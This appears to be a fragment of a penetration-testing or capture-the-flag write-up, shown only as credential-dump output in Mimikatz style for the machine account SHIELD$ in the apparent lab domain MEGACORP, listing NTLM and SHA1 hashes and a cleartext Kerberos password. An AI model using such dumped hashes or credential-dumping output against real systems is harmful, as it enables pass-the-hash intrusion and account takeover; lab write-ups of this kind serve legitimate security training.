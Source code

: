 ```powershell
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : shield$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 36403 (00000000:00008e33)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	
```